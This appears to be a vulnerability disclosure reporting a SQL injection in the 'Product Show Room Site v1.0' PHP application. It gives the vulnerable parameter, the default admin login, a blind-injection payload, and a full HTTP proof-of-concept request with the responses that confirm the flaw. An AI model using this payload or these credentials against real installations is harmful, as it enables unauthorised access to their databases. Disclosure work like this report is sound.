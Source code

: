 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=products/manage_product&id=

Vulnerability location: /psrs/admin/?page=products/manage_product&id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/?page=products/manage_product&id=3%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/?page=products/manage_product&id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```
When length (database ()) = 6, Content-Length: 33616
![image](https://user-images.githubusercontent.com/54017627/171828637-4b7f41a7-a2ea-4d7a-9a40-5dd5a896eda8.png)

![image](https://user-images.githubusercontent.com/54017627/171828731-e5740568-0489-4d87-a8c0-0173246550aa.png)

When length (database ()) = 7, Content-Length: 34389
![image](https://user-images.githubusercontent.com/54017627/171828602-802cf3c1-7850-4532-9873-8c6ede4e980c.png)

![image](https://user-images.githubusercontent.com/54017627/171828696-9d13a888-3db0-4873-8083-8db74632122a.png)
